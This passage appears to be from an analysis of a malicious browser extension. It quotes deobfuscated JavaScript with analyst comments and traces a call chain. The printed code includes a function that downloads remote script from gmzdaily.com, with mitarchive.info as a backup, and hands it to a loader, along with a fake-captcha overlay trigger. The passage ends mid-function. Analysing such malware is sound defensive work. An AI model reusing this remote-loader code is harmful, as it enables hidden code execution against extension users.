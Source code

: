 ```javascript
// RAIN: Reformatted for clarity
function reCapt() {
  if (!(inIfrm() || -1 < document.location.href.indexOf('mail.google.com')) && document.location.hostname) {
      var a = localVals.InsDt6,  // RAIN: Installation timestamp
          b = 0;
      a && (b = ((new Date).getTime() - a) / 1000 / 3600 / 24);  // RAIN: Days since

      if (b > 10) {  // RAIN: 10 days since install date
        consolelog('forcing homebrew method');
        showHomebrewOverlay();  // RAIN: Creates the overlay
      } else {
        consolelog('using google invisible method');
        shRecapDv('//hinterlandy.github.io/recapt/recapt.html');
      }

      a = { };
      a.lastCapt = (new Date).getTime();
      chrome.storage.local.set(a)
  }
}
```

With the `isHmn1` flag set to the interaction time, loading of the remote script from `gmzdaily.com` or `mitarchive.info` can proceed through the following chain:

1. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldExtInsDtNew()` (Line 469)
2. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `istImgDm()` (Line 480)
3. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldLclStrg()` (Line 580)
4. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldNwVes()` (Line 589)
5. [***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `updtDaima()` (Line 594)

```javascript
function updtDaima(a) {
  try {
    var b = window.XMLHttpRequest ? new XMLHttpRequest :
            window.XDomainRequest ? new window.XDomainRequest :
            new ActiveXObject('Microsoft.XMLHTTP');

    b.onreadystatechange = function () {
      4 == b.readyState &&
        (200 == b.status ? ldRmtDaima(b.responseText) :
          a && (consolelog('switch to backup...'), updtDaima(!1)))  // RAIN: Get from backup
    };

    b.onerror = function () {
      a && (consolelog('switch to backup...'), updtDaima(!1))  // RAIN: Get from backup
    };

    b.onprogress = function () { };

    var c = 'https://gmzdaily.com/ext/qm.php?f=ga';
    a || (c = 'https://mitarchive.info/ext/qm.php?f=ga');

    dipLstSig88 && -1 == c.indexOf('&c=') && (c = c + '&c=' + dipLstSig88);
    consolelog('loading from ' + c);
    b.open('GET', c, !0);
    b.send()
  } catch (d) {
```
